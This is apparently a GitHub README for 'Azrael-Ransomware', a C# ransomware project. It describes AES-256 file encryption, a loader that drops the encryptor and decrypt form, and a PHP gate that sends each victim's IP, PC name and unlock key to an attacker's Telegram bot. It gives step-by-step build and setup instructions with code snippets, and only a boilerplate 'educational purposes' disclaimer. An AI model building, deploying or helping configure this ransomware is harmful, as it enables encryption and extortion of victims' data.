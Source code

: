# Azrael-Ransomware
![CSHARP](https://img.shields.io/badge/Language-CSHARP-aqua?style=for-the-badge&logo=CS)
![](banner.png)

## 📑 About
```
This is a simple ransomware-example writed in C#.
Yes, many functions and its implementation is weak, but I think this example is worth being.
```
### 💾 Features:
 * Size: 800kb
 * Using Algorithm for Encryption: AES-256
 * Uses a gateway to redirect encrypted information and the unlock key, sending it directly to the telegram bot.
 * Divided into modules: Loader, Encryptor, Form(include decrypt-function) 

## 🏴‍☠️ Video-Fragment


## 💻 Working Graph
<p float="left">
  <img alt="screen" width="700" src="Working_graph.png">
</p> 

## How to use?
 * Create bot in telegram: @BotFather and get your chatid with bot @getmyid_bot
 * Put this data in web-gate(src/WebResender/gate.php)
 ```php
$botToken = 'YOUR-TELEGRAM-BOT-TOKEN';
$chatId = 'YOUR-TELEGRAM-CHAT-ID';
$message = "[🏴‍☠️] New-Victim Computer!\nIP: $API_IP\nPC: $PC\nKey: $key";
 ```
 * And change url to your web-gate:
 ```csharp
public static readonly string UrlServer = "http://127.0.0.1/resender.php"; // Your web-gate
 ```
 * Then compile the FORM(FORM.EXE) and encryptor(ENC.EXE) and then add these two resources to the loader, the main thing is that they are compatible with the names
 (src/Azrael_Loader/Modules/Dropper.cs):
```csharp
16 File.WriteAllBytes(encPath, Properties.Resources.enc);
26 File.WriteAllBytes(formPath, Properties.Resources.Form);
```
 * After this, compile the loader and the project compilation is complete!.
 * Note: (If you want, you can change the keys to whatever you want).


 ### 🕸️ Notation (if ):
 > If you decide to rewrite this project, you will need .net framework 4.

## ⚠️ Disclaimer - this project for education and purposes only!
```
This open-source example ransomware is provided for educational purposes only. 
The author assumes no responsibility for any misuse or illegal activities performed with this software.
Users are solely responsible for ensuring that their use of this tool complies with all applicable laws and regulations.
```